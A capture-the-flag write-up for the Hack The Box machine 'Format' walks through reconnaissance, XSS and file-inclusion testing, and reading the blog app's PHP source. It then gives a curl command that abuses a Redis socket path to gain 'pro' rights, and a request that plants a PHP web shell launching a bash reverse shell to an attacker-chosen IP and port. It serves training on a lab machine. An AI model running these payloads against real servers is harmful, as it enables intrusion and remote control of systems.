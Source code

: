 ![Format-1024x775](https://github.com/st1llz0r/Format/assets/142597099/41c58bf0-ac14-41de-9e74-8d425beeeefb)

Let's go

information collection;
  Scanning target host.

nmap -sS -sVC target ip;

![image](https://github.com/st1llz0r/Format/assets/142597099/6773bb04-d5b4-4b0d-bbb6-d7159a9cbafb)

  Navigate to target IP port 80;
  Nothing, so try and Spoof DNS;

 <b> echo '10.10.11.213 microblog.htb' >> /etc/hosts </b>;

 Trying again, we can discover http://app.microblog.htb, therefore spoof it. bind the domain to hosts file;

 Browser input > http://app.microblog.htb;

 Browse the web app and see what functionalities it has;

 Create an account and publish your own blog. Test out the Editing page and so on;

 On the editing page let's try and see how the web page reacts to basic XSS; Use the h1 option and input:

 <b> <script>alert(1)</script> </b>;

 Hmm, interesting result;

 Now let's try something crispier;

 Now let's change it to text and capture the traffic by using Burpy suite;

 Analyze the pack

  ![image](https://github.com/st1llz0r/Format/assets/142597099/52e58d19-1292-4a6a-a383-98a9ca924351)

  After analyzing let's start with basic stuff, basic LFI:

 ![image](https://github.com/st1llz0r/Format/assets/142597099/dfc3ff0a-2bac-4c0c-9bcb-cf08433e7a27)


n0w navigate to your browser and refresh:

 ![image](https://github.com/st1llz0r/Format/assets/142597099/2f0d0e67-ddc0-4af7-81e6-10b07a060be5)

Pew pew pew pew
We got a lead
redis and git and user
let's navigate to http://microblog.htb:3000/

Who would ve thought =D



![image](https://github.com/st1llz0r/Format/assets/142597099/e5e3b712-7d3c-45d5-8552-d3b320d04135)



![image](https://github.com/st1llz0r/Format/assets/142597099/12aee48a-ae78-492a-9a95-a12172e64969)


So, there is this Cooper guy (USER) who has created this sunny (blog domain);

Site is pretty basic as in infrastructure so the folders and all will apply for our account also;

Go into the Sunny Folder > check index.php and analyze code;

```php
<?php
$username = session_name("username");
session_set_cookie_params(0, '/', '.microblog.htb');
session_start();

function checkAuth() {
    return(isset($_SESSION['username']));
}

function checkOwner() {
    if(checkAuth()) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $subdomain = array_shift((explode('.', $_SERVER['HTTP_HOST'])));
        $userSites = $redis->LRANGE($_SESSION['username'] . ":sites", 0, -1);
        if(in_array($subdomain, $userSites)) {
            return $_SESSION['username'];
        }
    }
    return "";
}

function getFirstName() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $firstName = $redis->HGET($_SESSION['username'], "first-name");
        return "\"" . ucfirst(strval($firstName)) . "\"";
    }
}

function fetchPage() {
    chdir(getcwd() . "/content");
    $order = file("order.txt", FILE_IGNORE_NEW_LINES);
    $html_content = "";
    foreach($order as $line) {
        $temp = $html_content;
        $html_content = $temp . "<div class = \"{$line}\">" . file_get_contents($line) . "</div>";
    }
    return $html_content;
}

?>
<!DOCTYPE html>
<head>
<link rel="icon" type="image/x-icon" href="/images/brain.ico">
<link rel="stylesheet" href="http://microblog.htb/static/css/styles.css">
<script src="http://microblog.htb/static/js/jquery.js"></script>
<title></title>
<script>
    $(window).on('load', function(){
        const html = <?php echo json_encode(fetchPage()); ?>.replace(/(\r\n|\n|\r)/gm, "");
        $(".push-for-h1").after(html);
        if(html.length === 0) {
            $(".your-blog").after("<div class = \"empty-blog\">Blog in progress... check back soon!</div>");
            $(".push-for-h1").css("display", "none");
        }
        const siteOwner = <?php echo json_encode(checkOwner()); ?>;
        if(siteOwner.length > 0) {
            $(".your-blog").css("display", "flex");
            $(".user-first-name").text(<?php echo getFirstName(); ?>);
        }
        const class_after_push = $(".push-for-h1").next().children().attr('class');
        if(class_after_push) {
            if(class_after_push.includes("blog-h1")) {
                $(".push-for-h1").css("display", "none");
            }
        }

        const blogName = String(window.location).split('.')[0].split('//')[1]
        document.title = blogName + " - Microblog"
    });
</script>
</head>
<body>
    <div class = "your-blog">
        <div><span class = "user-first-name"></span>, this is your blog! <a href = "/edit" style = "color: white;"><b>Edit it here.</b></a></div>
    </div>
    <div class = "push-for-h1" style = "min-height: 25px;"></div>
    <footer>
        © 2022 Microblog<br/>
        <a href="https://www.vecteezy.com/free-vector/brain">Brain Vectors by Vecteezy</a>
    </footer>
</body>
</html>

```
This provisionProUser () function seems to set a USER to be a PRO USER;

isPro () instructs us how to;

So we need to use a redis command in order to make our account PRO user;

Worth to check https://redis.io/commands/hset/;

```php

curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:YOUR_USERNAME%20pro%20true%20/b"

```

![image](https://github.com/st1llz0r/Format/assets/142597099/4b0d839a-ea34-41cc-994f-3d5294c51705)

![image](https://github.com/st1llz0r/Format/assets/142597099/abcc5c4d-09cf-4f73-9e47-18dcb43330c0)

Oulalala, if we check top right corner, now we are PRO USER and we can upload images also :P;

Upload a few images, add text and now using the text add function on the blog editor turn on Burpy suite and intercept again;
Now send to repeater and modify it this way:

![image](https://github.com/st1llz0r/Format/assets/142597099/4d8b101a-ec2c-42e7-91ce-63cdee8ffe58)

Before hitting send open NC set it to desired port;

![image](https://github.com/st1llz0r/Format/assets/142597099/cb1ba58b-c329-4649-9b48-2b1896955a2c)


```php


id=/var/www/microblog/blog_name/uploads/rev.php&txt=<%3fphp+exec("/bin/bash+-c+'bash+-i+>%26+/dev/tcp/IP/PORT+0>%261'")%3b%3f>

```
Hit SEND on Repeater Burpy;
Navigate to: http://sarmale.microblog.htb/uploads/rev.php (OFC CHANGE TO YOUR BLOG)

![image](https://github.com/st1llz0r/Format/assets/142597099/aa70134b-2690-4491-a089-97c865a234b6)

